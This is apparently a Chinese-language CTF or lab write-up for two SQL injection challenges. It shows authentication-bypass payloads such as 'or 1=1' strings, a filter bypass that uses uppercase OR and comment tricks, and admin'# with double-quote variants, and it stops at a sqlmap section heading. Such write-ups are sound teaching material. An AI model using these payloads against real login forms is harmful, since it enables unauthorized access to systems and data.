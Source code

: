## 3. SQL 注入（三）

![image.png](https://img.ghostliner.top/vqEBI6.png)

尝试弱密码登录失败

![image.png](https://img.ghostliner.top/ahPhW6.png)

尝试万能密码登录

```sql
password=admin' or '1'='1'--+&username=admin' or '1='1'#
```

发现 `or` 、`--+`、`#` 被过滤

![image.png](https://img.ghostliner.top/wiet7N.png)
使用双写失败，使用大写

```sql
password=12' OR '1'='1'/**&username=12' OR'1'='1'/**
```

![image.png](https://img.ghostliner.top/PxWDMA.png)

取消注释，进行补全

```sql
password=12' OR '1'='1&username=12' OR'1'='1
```

![image.png](https://img.ghostliner.top/y2nDNd.png)

## 4. SQL 注入（四）

![image.png](https://img.ghostliner.top/xK0Mzy.png)

### 4.1. 万能密码

注册用户 `admin`，提示已存在，使用万能密码（`admin'#`）登录

![image.png](https://img.ghostliner.top/rDQziE.png)

单引号登陆失败，使用双引号

![image.png](https://img.ghostliner.top/yjNjAJ.png)

双引号登录成功

![image.png](https://img.ghostliner.top/5FRCPa.png)

### 4.2. sqlmap 爆破

尝试万能密码登录失败
